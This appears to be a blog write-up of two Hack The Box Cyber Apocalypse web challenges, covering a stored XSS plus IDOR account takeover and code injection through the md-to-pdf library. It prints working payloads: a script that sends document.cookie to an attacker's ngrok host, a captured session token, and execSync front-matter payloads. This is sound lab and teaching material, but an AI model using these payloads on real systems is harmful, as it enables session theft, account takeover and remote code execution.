 ```yaml
---
title: HTB Cyber Apocalypse Web Writeup
date: 2022-05-18 12:00:00 -0400
image: 
 path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf0.jpg
 height: 3000
 width: 450
categories: [HTB Writeups, Cyber Apocalypse CTF]
tags: [web security, ctf, owasp]
---
```


# Kryptos Support

Checking the web page of this challenge gives a form to send an issue and an admin will review that issue.
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf1.jpg)

So its interesting, maybe the admin will click in that issue and we can inject some kind of payload, like an stored xss, these approach is similar to the bankrobber box in htb.

So we can craft the payload to steal the cookie of the admin or the user who will review out ticket.

```bash
<script> var i=new Image(); i.src='https://yourip.sa.ngrok.io?cookie='+escape(document.cookie);</script>
```

After set up our ngrok proxy and netcat listening in one port, with this payload we can steal the reviewer account cookie.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf2.jpg)

We receive the response and the cookie 
``` bash
session=DeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTMwMjI3OTZ9.KpxQxzNncJfI12UlhXA3t7Li8TOB18dNr0FmMCb0ksA
```

So we can create a cookie with the name session and copy the value.

From the files we can see that one directory is tickets, so i try to enter and we can see we are moderator

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf3.jpg)

We see a function to reset a password, maybe we can try an IDOR for User Account Takeover changing the password of admin. Intercepting the request to the reset password function, we can change the uid from 100 to 1, and resend with our password.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf5.jpg)

```json
{"password":"jesus","uid":"1"}
```

And finally we can login as admin with our password and see our flag

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf4.jpg)

`HTB{x55_4nd_id0rs_ar3_fun!!}`

# Blinker Fluids
Checking the web page of this challenge i can see an invoice list, i can edit, delete and export an invoice in pdf format, an interesting thing is that we submit the invoice in markdown and its converted to pdf, so lets check the source code.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf6.jpg)

We see the add function calls mdhelper to convert the markdown file to pdf, so checking mdhelper.js file we see this:

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf8.jpg)

We see that is using the `md-to-pdf` node module so with some research on google i found this [Synk Vuln DB: CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) 

Code of the POC:

``` javascript
const { mdToPdf } = require('md-to-pdf');

var payload = '---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE';

```

Then i change the payload to copy the flag, which is in the root directory to the invoice of default in the directory static/invoices, so the payload was:

``` javascript
---javascript
((require("child_process")).execSync("cp /flag.txt /app/static/invoices/f0daa85f-b9de-4b78-beff-2f86e242d6ac.pdf")
---RCE
```
Then when i open the invoice it gives me an error, but in dev tools i can see the base64 string which is the flag.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf9.jpg)

`HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`


Thanks for read, Happy Hacking!




